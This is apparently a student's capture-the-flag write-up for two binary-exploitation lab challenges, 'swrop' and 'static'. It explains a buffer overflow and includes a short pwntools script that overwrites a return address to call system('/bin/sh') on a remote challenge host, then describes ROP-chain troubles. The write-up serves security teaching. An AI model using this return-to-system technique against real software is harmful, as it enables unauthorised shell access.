 swrop
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
Pretty straightforward, no problems here.

Script/Command used (Writeup)
------------------
`vulnerable_function` is vulnerable to a buffer overflow since `read()` is allowed to read in more data than the size of the provided buffer. So we set up a simple "stackframe" for a call to system(). Pad out the buffer with A's, put the address of the `system()` function in place of the return address. Then place our fake return address for after system() finishes (which we don't care about) and finally our argument for system(), the address of the /bin/sh string (which is inside the binary itself).

Exploit:
```
from pwn import *

PROG_NAME = "./swrop"
REMOTE_IP = "plsdonthaq.me"
REMOTE_PORT = 6001

if args.REMOTE:
    p = remote(REMOTE_IP, REMOTE_PORT)
    elf = ELF(PROG_NAME)
else:
    p = process(PROG_NAME, env={"LD_LIBRARY_PATH": "./libc-2.23.so"})
    elf = p.elf

payload = b'A'*0x88
// No PIE so this is easy
payload += p32(elf.plt['system'])
payload += b'A'*4
payload += p32(0x80485f0) # address of /bin/sh string

p.sendline(payload)

p.interactive()
```

static
===========================
Flag: FLAG{}
General overview of problems faced
-------------------------------------
In my opinion this was the hardest challenge this week, mainly because I found it difficult to get a hold of a "/bin/sh" string. After quite a bit of research I found that a good place to write data to would be .data (pretty obvious in hindsight but wasn't at the time). To make matters worse, after making a (relatively long) ROP chain, I still kept getting segfault errors. After further inspection I found this was caused by a "pop eax; ret" gadget I was using which had address 0x080a8cb6. The 2nd most significant byte of the address is 0x0a which is hex for the newline character which would cause `fgets()` to stop reading in data. This would be worked around by moving values between registers, but nonetheless was quite tricky.
